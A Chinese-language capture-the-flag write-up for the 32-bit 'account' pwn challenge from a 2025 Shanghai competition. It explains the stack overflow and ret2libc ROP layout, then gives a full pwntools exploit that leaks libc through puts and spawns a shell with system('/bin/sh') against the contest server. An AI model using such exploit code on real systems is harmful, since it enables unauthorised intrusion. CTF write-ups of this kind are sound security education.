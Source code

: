 ```yaml
---
title: 上海磐石行动 2025 初赛 - account
date: 2025/08/09 15:10:00
updated: 2025/08/09 15:29:00
tags:
    - noob
thumbnail: /assets/shanghai2025/32bit_rop.png
excerpt: 栈溢出利用ret2libc构造32位ROP链泄露libc并执行`system("/bin/sh")`。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |i386  |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.31-0ubuntu9.18|

## 解题思路

非常直接的栈溢出，走ret2libc那套就行。不输入0就可以一直往上输入，
输入时还会覆盖到`idx`，可以顺手将其改为指向返回地址，少循环几次，
然后输入rop的链子后以0结尾就行。

好久没做32位的题了，都忘记怎么构造rop了。32位上，发生了`call`以后，
对于子函数来说，`[esp]`是返回地址，`[esp+4]`才是参数。因此我们在构造链子的时候，
返回地址后面不应该跟参数，而是跟另一个返回地址，如下图所示。

<img src="/assets/shanghai2025/32bit_rop.png" width="60%">

{% note green fa-lightbulb %}
`scanf("%d")`在输入超大数字时不会自动溢出到负数，因此需要我们手动干预，
取数字的补码，例如对于libc这种超过`0x7fffffff`的指针，就要手动减去`1 << 32`
{% endnote %}

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './account'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'b *0x80492ea\nc')
    else:
        t = remote('pss.idss-cn.com', 24817)
    elf = ELF(EXE)
    libc = ELF('./libc.so.6')

    def round_input(rop: list[int]):
        bills = [1] * 10 # overflow
        bills.append(13) # write i to ret addr
        for e in rop:
            bills.append(e if e < 0x80000000 else e - (1 << 32))
        bills.append(0)  # ends up
        t.sendlineafter(b'Enter', ' '.join(map(str, bills)).encode())
        t.recvuntil(b'completed\n')

    round_input([elf.plt['puts'], elf.symbols['vul'], elf.got['puts']])
    libc_base = t.u32() - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    round_input([libc.symbols['system'], libc.symbols['exit'],
                 next(libc.search(b'/bin/sh')), 1])

    t.clean()
    t.interactive()
    t.close()
```

{% note default fa-flag %}
![flag](/assets/shanghai2025/account_flag.png)
{% endnote %}
